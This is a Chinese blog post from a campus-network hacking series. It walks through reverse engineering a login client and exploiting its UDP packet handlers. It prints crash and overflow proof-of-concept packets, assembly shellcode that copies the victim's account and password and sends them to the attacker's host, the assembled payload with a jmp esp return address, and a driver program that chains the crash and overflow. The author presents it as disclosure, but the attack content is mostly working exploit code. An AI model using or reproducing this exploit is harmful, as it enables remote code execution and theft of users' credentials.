 ```yaml
---
published: true
title: 5. Overflow 攻击获取远程用户帐号密码
layout: post
authors: p74n3_1C4tr0
category: Crack
tags: Crack
---
```



本章所使用到的工具和环境

>IDA pro ,OllyDBG

**来自IDA 的迷惑**

我们知道,要发掘远程代码执行漏洞,必须要在接收数据函数附近发掘.由于校园网登陆客户端采用UDP 通信,所以第一步要做的就是定位recvfrom 函数在哪个位置被调用.于是利用OD 在recvfrom 的入口处设置断点,然后找到下面的这个地方.

![1](http://ww3.sinaimg.cn/large/005YTBXDgw1ev03jhuysyj30fe049dgv.jpg)

<!-- more -->
往下继续跟踪代码,发现这里有一个根据数据包内设置的标志来跳转的判断

![2](http://ww4.sinaimg.cn/large/005YTBXDgw1ev03k6k8cbj30fe055jst.jpg)

继续往下跟踪,发现接收的所有数据包的标志都是0x04,而且在代码

![3](http://ww2.sinaimg.cn/large/005YTBXDgw1ev03kn40vsj30fe01jaag.jpg)

中已经被限定只能接收标志为0x04 的数据包.于是找到处理标志为0x04 的数据包的函数,发现可以利用数据包中的数据块长度溢出函数返回地址,首先,函数处理的栈帧长度小于0xFF

![4](http://ww1.sinaimg.cn/large/005YTBXDgw1ev03l3req7j309u02oaa4.jpg)

然后我们利用IDA 转换成伪C 代码分析.发现这里有一处溢出.原理是通过构造数据块长度为0xFF ,使得memcpy 把数据块覆盖了原来的栈帧

![5](http://ww4.sinaimg.cn/large/005YTBXDgw1ev03llaj0jj30fe03ndgg.jpg)

然后构造了下面的POC 代码,结果程序没有被溢出,而是产生了内存引用出错

```c++
char buffer_crash[]={0x04/*packet_flag*/,0x94/*packet_length*/,/*calcu_md5*/0x52,0xEA,0x47,0x45,0xA5,0x02,0x5E,0x6F,0x65,0x48,0x82,0x9B,0x18,0x18,0x02,0xBC,0x08/*struct_key*/,0xFF/*struct_length*/,/*NOP  CODE*/0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90};
```

![6](http://ww2.sinaimg.cn/large/005YTBXDgw1ev03mtqejij30e50cqq55.jpg)

于是转换成汇编代码看一看究竟是哪个地方出个问题,结果大吃一惊

![7](http://ww3.sinaimg.cn/large/005YTBXDgw1ev03nc2j96j30et07n0tw.jpg)

注意汇编代码:movsx eax,byte ptr [edx] .如果从edx 中读取出来的数据不大于0x80 ,那么eax 的值就是0x00000080 ,如果大于0x80 ,那么eax 的值就是0xFFFFFF00 + byte ptr [edx] .真实调用memcpy() 的情况是:

<code>memcpy(&local_buffer, (const void *)(struct_key + 2), 0xFFFFFFFF );</code>

毫无疑问,是复制内存访问到无效的内存而导致的.所以这段Shell Code 只能使客户端Crash 掉而不能被注入代码,所以把这个漏洞称为整数溢出

>绝处逢生

仔细一想,客户端登陆的时候也会产生数据交互流程,抓包分析一下,发现这个数据包的标志为`0x02`

![8](http://ww1.sinaimg.cn/large/005YTBXDgw1ev03ongl9hj30fe02qwf8.jpg)

进入处理函数查看,发现这个地方是可以被注入远程代码的.

首先,该函数的栈大小同样也小于`0xFF`

![9](http://ww3.sinaimg.cn/large/005YTBXDgw1ev03p80ag6j30cm03paah.jpg)

然后在处理数据块标志为8 的地方同样也发现了可以溢出攻击的地方

![10](http://ww1.sinaimg.cn/large/005YTBXDgw1ev03pkr25kj30fd06075i.jpg)

为了不被迷惑,所以下面从汇编的角度来做分析

![11](http://ww3.sinaimg.cn/large/005YTBXDgw1ev03pz2v95j30fe0bpmzr.jpg)

在这里ecx 是直接从内存中读取的,不像刚才那样会设置ecx 的高位为1 ,所以这个地方是可以被溢出的,验证POC 如下:

```c++
char buffer_overflow[]={0x02,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,
                            0x25 /*struct_key*/,0xFF/*struct_length*/,/*NOP CODE */0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90}
```

发送构造好的数据包过去,客户端有了反应.

![12](http://ww2.sinaimg.cn/large/005YTBXDgw1ev03rauq6kj308x0a0q3z.jpg)

任意点击之后,程序崩溃

![13](http://ww2.sinaimg.cn/large/005YTBXDgw1ev03rt5c3yj30e50cqtar.jpg)

为了进一步验证是否为真实的溢出点,接下来用OD 做调试:

![14](http://ww4.sinaimg.cn/large/005YTBXDgw1ev03sb2qqdj30fd0b177i.jpg)

至此已经成功验证这个函数是可以被溢出执行远程代码的

>综合利用

客户端崩溃了以后,在重新登陆到服务器的时候有一小段延迟时间.

![15](http://ww2.sinaimg.cn/large/005YTBXDgw1ev03sxgu61j30fd01agly.jpg)

所以我们只能够在这段时间内注入我们的溢出代码.问题是怎么才可以做到这个效果呢?聪明的你应该已经想到,利用的过程如下:

>1.发送崩溃数据包(整数溢出),使远程客户端崩溃
>2.等待对方重启动客户端
>3.把ShellCode 数据包(缓冲区溢出)注入到正在登陆的客户端中

由于可以利用的注入代码空间比较小,所以把ShellCode 的功能写成到盗取客户端的帐号密码并且返回到远程主机,ShellCode 的汇编代码如下(在VC++ 6 下编译通过):

```asm
Shell Code V1 :

                mov byte ptr [esp+0x10],41h;
                mov byte ptr [esp+0x11],3Ah;
                mov byte ptr [esp+0x22],50h;
                mov byte ptr [esp+0x23],3Ah;

                mov ecx,0x4;
                lea edi,byte ptr [esp+0x12];
                mov esi,0x45B7E8;  //  帐号
                rep movsd;

                mov ecx,0x4;
                lea edi,byte ptr [esp+0x24];
                mov esi,0x45B808;  //  密码
                rep movsd;

                lea ebx,byte ptr [esp+0x10];
                lea ecx,byte ptr [ebp+0x12];  //  IP Address
                xor edx,edx;
                mov dx,0x2793;  //  IP Port
                push edx;
                push ecx;
                mov eax,0x24;
                push eax;
                push ebx;
                mov eax,dword ptr [0x526424];  //  UDP Socket
                push eax;
                mov eax,0x418B40;  //  udp_send()
                call eax;
```

返回的帐号密码的数据包结构:

>Password Packet:
>( 数据包开头 ) A:_16B_P:_16B_ (数据包结尾)

得出的ShellCode 如下

```c++
char buffer_overflow[]={0x02,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00, 0x25 /* struct_key */,0xB5 /*struct_length*/,/* NOP  CODE 0x9B B WARNING! 只能理由后0x76 位,并且需要注意ESP *//* NOP 炮灰代码 */0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90, /* NOP 段可利用代码 */0xC6,0x44,0x24,0x10,0x41,0xC6,0x44,0x24,0x11,0x3A,0xC6,0x44,0x24,0x22,0x50,0xC6,0x44,0x24,0x23,0x3A,0xB9,0x04,0x00,0x00,0x00,0x8D,0x7C,0x24,0x12,0xBE,0xE8,0xB7,0x45,0x00,0xF3,0xA5,0xB9,0x04,0x00,0x00,0x00,0x8D,0x7C,0x24,0x24,0xBE,0x08,0xB8,0x45,0x00,0xF3,0xA5,0x8D,0x5C,0x24,0x10,0x8D,0x4D,0x1A,0x33,0xD2,0x66,0xBA,0x93,0x27,0x52,0x51,0xB8,0x24,0x00,0x00,0x00,0x50,0x53,0xA1,0x24,0x64,0x52,0x00,0x50,0xB8,0x40,0x8B,0x41,0x00,0xFF,0xD0,0xD0,0x6F,0x72,0x6C,0x64,0x21,0x00,0x54,0x45,0x53,0x54,0x00,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90,0x90, /* 后四位不能使用,会自动变成0xFFFFFFFF *//* RET  ADDR 0x04 B */0xDD,0x8B,0xF2,0x76, /* jmp esp  -  Win7 Server Pack 1 *//*SHELL CODE 0x16 B */0x8B,0xEC,0x83,0xED,0x08,0x81,0xEC,0x00,0x01,0x00,0x00, /*mov ebp,esp;sub ebp,0x8;sub esp,0x100;*/0x8B,0xC5,0x83,0xE8,0x76,0xFF,0xE0,/*mov eax,ebp;sub eax,0x76;jmp eax; *//*后面填写IP 地址*/0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC,0xCC};
```

由于源代码太过亢长(需要对数据包进行MD5 计算和伪造服务器的IP 地址)不公开所有的代码,所以下面直接演示攻击过程

程序的主体代码如下:

```c++
int main(void) {
    packet_init();

    char ip[0x11]={0};
    scanf("%s",ip);

    printf("Crashing!\n");
    send_packet_crash(ip);

    Sleep(5000);

    printf("Overflowing!\n");
    send_packet_overflow(ip);

    char recv_buffer[0x25]={0};
    int recv_length=packet_recv(recv_buffer);
    
    if (-1!=recv_length)
        printf("RECV(%d):Account=%s Password=%s\n",recv_length,&recv_buffer[0x02],&recv_buffer[0x14]);
    else
        printf("RECV ERROR!\n");

    packet_clean();
	return 0;
}
```

第一步,崩溃客户端

![16](http://ww4.sinaimg.cn/large/005YTBXDgw1ev03y87lzkj30fe09g761.jpg)

等待客户端登陆的时候发送ShellCode 数据包

![17](http://ww4.sinaimg.cn/large/005YTBXDgw1ev03yruhpjj30fe0a2dh9.jpg)

成功溢出盗取帐号和密码

![18](http://ww4.sinaimg.cn/large/005YTBXDgw1ev03z8kut4j30fe0eb0v8.jpg)

>最后的话

感谢大家把”黑掉蝴蝶”这个系列看完,其实,在写最后一章Overflow 攻击 ,我想了很久,毕竟这是一个可以影响整个华软网络的漏洞,不能发布给大家知道,以免别有用心的人利用来攻击,但是最后斟酌良久,为了让校园网更加安全,有必要应该把它公之于众,恰恰是因为敢公开,原因是这个漏洞需要利用的技术水平很高,可能各位读者只是单纯看到本章直接利用到shellcode 注入就可以获取到帐号密码,其实后面隐含着很多条件,蝴蝶没有这么容易被欺骗,每一次接收数据都会判断数据包的来源IP ,所以必须要使用Winpcap 构造以太网帧才可以达欺骗的目的,修复这个漏洞很简单,如果大家有需求的话可以把整个包含NAT 绕过和修复版公开,现在整个漏洞利用工具(包括红绿蝴蝶帐号密码获取漏洞)已经被开发出来,但不打算对外公开,等到时机成熟再公开吧.